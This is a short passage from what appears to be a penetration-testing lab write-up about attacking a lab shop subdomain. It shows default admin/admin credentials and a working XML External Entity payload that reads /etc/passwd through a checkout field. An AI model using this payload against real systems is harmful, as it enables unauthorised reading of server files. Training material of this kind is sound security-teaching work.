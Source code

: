 ```yaml
credentials:
    username: admin
    password: 'admin'    
    host: shopdev2.inlanefreight.local
```

![Firefox - ShopDev2 Subdomain Homepage 2](./assets/screenshots/attacking_enterprise_networks_external_testing_37.png)

![Burp Suite - ShopDev2 POST Checkout](./assets/screenshots/attacking_enterprise_networks_external_testing_38.png)

**XML External Entity (XXE) Injection**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><subtotal>undefined</subtotal><userid>&xxe;</userid></root>
```
